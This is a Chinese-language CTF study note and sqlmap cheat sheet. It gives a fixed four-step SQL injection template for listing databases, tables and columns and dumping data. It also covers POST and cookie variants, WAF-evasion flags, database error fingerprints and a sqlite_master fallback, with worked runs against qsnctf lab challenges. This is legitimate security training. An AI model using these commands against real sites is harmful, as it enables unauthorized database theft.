

# 🗂 Web 笔记 17｜sqlmap 核心打法模板（四步下钻）

> 记录自：qsnctf Sql Page（40115）实战 ｜ 2026-08-11 ｜ sqlmap 1.10.7.253#dev 实测
> 配套图：`sqlmap四步下钻模板.svg`（同目录，浏览器可打开）
> 与笔记13的关系：13 是 sqlmap 参数大全/日常三连，本篇是「怎么打」的**固定套路模板**——先看本篇，细节查 13

---

## 一、核心心法：一半固定，一半替换

sqlmap 参数一大堆，但**日常做题只动 4 个动作**，其余永远不碰。

**固定前缀（永远不变，换题只改 URL）：**
```bash
python sqlmap.py -u "URL" --batch --technique=BE
```
| 部分 | 作用 |
|---|---|
| `-u "URL"` | 打谁（**必须带注入参数**：`?id=1`，否则没有测试目标） |
| `--batch` | 所有提问自动答 y，免交互 |
| `--technique=BE` | 只跑布尔(B)+报错(E)注入，比默认快一个量级；卡了就删掉用默认 |

**变化部分 = 4 个下钻动作（每次只换尾巴）：**

| 步骤 | 命令尾巴 | 要填的 | 得到 |
|---|---|---|---|
| ① 列库 | `--dbs` | 无 | 所有库名 |
| ② 列表 | `-D 库名 --tables` | ①输出的库名 | 表名 |
| ③ 列表列 | `-D 库名 -T 表名 --columns` | ②输出的表名 | 列名 |
| ④ 拖数据 | `-D 库名 -T 表名 --dump` | 目标表 | 全部数据 = flag |

> **口诀：库 → 表 → 列 → 数据，一步一步往下钻。每下一步，把上一步输出的名字填进 -D / -T。**

---

## 二、四步下钻图（配图）



---

## 三、变体：注入点不在 GET 参数时

| 场景 | 写法 |
|---|---|
| 注入点在 **POST 参数** | `-u "URL" --data="uname=admin&psw=x"` |
| 需要**登录态** | `-u "URL?id=1" --cookie="PHPSESSID=xxx"` |
| 页面有表单想自动找 | `-u "URL" --forms` |
| 一次拖所有库表（懒人，慢） | `--dump-all` |

---

## 四、高频参数速记（看到认识就行）

```bash
--batch        # 自动答 y，必带
--technique=B  # 只布尔；=E 只报错；=BE 布尔+报错（推荐）
--threads=5    # 并发，盲注提速
--level=2/3    # 测得更深（默认1），慢但全
--random-agent # 随机 UA，防 WAF
--tamper=xxx   # 绕 WAF 的编码脚本（进阶，先不用）
```

---

## 五、踩坑记录（全部实测踩过）

1. **URL 必须带参数**：`-u "http://x/"` 会提示 `no parameter(s) found for testing`，一个参数都没有 = 测空气。注入点在哪个参数，就把哪个带正常值。
2. **grep 滤掉表名**：sqlmap 输出表名/数据是 `| flag |` 这种格式，用 `grep "Table:"` 或 `grep "\[\*\]"` 会**把表名滤掉**，误判「库是空的」。列表/拖数据用 `tail -15` 看完整输出。
3. **fake_flag 陷阱**：flag 表可能有两行（fake_flag / true_flag），别看到第一个就交，选 `true_flag`。
4. **flag 格式不一定 `flag{}`**：这题是 `SQCTF{...}`，交之前看题目格式。
5. **库名随实例变**：qsnctf 每个实例环境独立，别背库名。列库后**盯「看着像出题人放的库」**（ctf / ctftraining / flag / test / word...）下钻。
6. **手测没找到 ≠ 没漏洞**：手测 extractvalue 回显限 32 字符、group_concat 被截断，只看到一部分；sqlmap 分批拉全量才暴露 ctf.flag。

---

## 六、实战案例（qsnctf 40115 全流程）

```bash
# ① 探测+列库（7 秒）
python sqlmap.py -u "http://challenge.qsnctf.com:40115/?id=1" --batch --technique=BE --dbs
# → 5 库：ctf / information_schema / mysql / performance_schema / security

# ② 列 ctf 库的表
python sqlmap.py -u "http://challenge.qsnctf.com:40115/?id=1" --batch --technique=BE -D ctf --tables
# → Database: ctf  [1 table]  flag

# ③ 拖数据
python sqlmap.py -u "http://challenge.qsnctf.com:40115/?id=1" --batch --technique=BE -D ctf -T flag --dump
# → fake_flag: SQCTF{fake_flag}（假的）
#   true_flag: SQCTF{66a47fc2-cf6e-7648-b523-d29363b5580c}（真的）
```

---

## 七、贴墙速查卡

```
固定前缀:  python sqlmap.py -u "URL?id=1" --batch --technique=BE
① 列库:     (尾巴) --dbs
② 列表:     -D 库 --tables
③ 列表列:   -D 库 -T 表 --columns
④ 拖数据:   -D 库 -T 表 --dump        ← flag 在这
POST:      -u "URL" --data="a=1&b=2"
带登录:    --cookie="xxx"
口诀:      库→表→列→数据，一步一钻，名字往上填
```

---

## 八、数据库差异与卡壳急救（2026-08-18 新增，qsnctf 40799 Go+SQLite 实战）

> 心法：sqlmap 核心语法（--dbs/--tables/--dump/-T/-C）**不随数据库变**；变的是"能力边界"和"边角情况要不要手动补"。判断依据永远是 **sqlmap 自己的输出提示**。

### 1. 报错指纹表（先认库，再选姿势）
| 数据库 | 语法错误的报错特征 |
|---|---|
| **SQLite** | `near "xxx": syntax error` |
| MySQL | `You have an error in your SQL syntax; check the manual...` |
| PostgreSQL | `ERROR: syntax error at or near "xxx"` |
| MSSQL | `Incorrect syntax near 'xxx'` |
| Oracle | `ORA-00933: SQL command not properly ended` |
| Go 包着的 SQLite | `sql: Scan error ... converting ... to a int`（Go 层，还泄露列名/表名） |

### 2. 各库系统表对照表（档案柜，--sql-query 手动查 schema 用）
| 数据库 | 系统表 | 拿列名/建表语句 |
|---|---|---|
| **SQLite** | `sqlite_master` | `SELECT sql FROM sqlite_master WHERE name='表名'`（sql 列=建表语句，免费 schema）|
| MySQL | `information_schema.columns` | `SELECT column_name FROM information_schema.columns WHERE table_name='表名'` |
| PostgreSQL | `information_schema.columns` | 同上 |
| MSSQL | `INFORMATION_SCHEMA.COLUMNS` | 同上 |
| Oracle | `USER_TAB_COLUMNS` | `SELECT column_name FROM user_tab_columns WHERE table_name='表名'` |

### 3. 卡壳急救流程（列枚举失败时）★
```
--dump 报 unable to enumerate the columns
        ↓
① 查列名: --sql-query "SELECT sql FROM sqlite_master WHERE name='表名'"  ← 按库换系统表
        ↓
② 指定列: -T 表名 -C 列名 --dump
        ↓
🎯 拿数据
```
- 提速：报错/页面已泄露列名 → 直接跳第②步；`-C 错列名` 会报 `no such column`，回去重查。
- `--sql-query` 是万能底牌：直接执行任意 SELECT，绕开 sqlmap 的列枚举盲区。

### 4. 各库能力边界（不是语法，是能不能干）
| 库 | --dbs | 备注 |
|---|---|---|
| MySQL/PG/MSSQL/Oracle | ✅ | 多库；MySQL 有 FILE 权限才能 --file-read |
| **SQLite** | ❌ 报不支持 | 单文件库，直接 --tables |

### 5. 两个易误会/易手滑点
- **`reflective value(s) found and filtering out` ≠ 存在 value 列**：是"页面把 sqlmap 自己的测试标记反射回来了，它过滤掉防误判"。真实列名靠系统表/建表语句拿，不靠这个 warning。
- `--data="query"` 必须带值（`query=test`），否则 `no parameter(s) found`；参数之间必须有空格（`-T flags --dump`，写成 `flags--dump` 会被当一个词）。

### 6. 本实战案例（qsnctf 40799）
```bash
# 识别（2秒）：UNION 注入/3列/SQLite
python sqlmap.py -u "http://.../search" --data "query=test" --batch --dbs
# SQLite 不支持 --dbs → 直接
python sqlmap.py -u "http://.../search" --data "query=test" --batch --tables
# → flags / sqlite_sequence / users
# 列枚举失败 → 查建表语句拿列名 value：
python sqlmap.py -u "http://.../search" --data "query=test" --batch --sql-query "SELECT sql FROM sqlite_master WHERE name='flags'"
# 指定列拖数据：
python sqlmap.py -u "http://.../search" --data "query=test" --batch -T flags -C value --dump
```
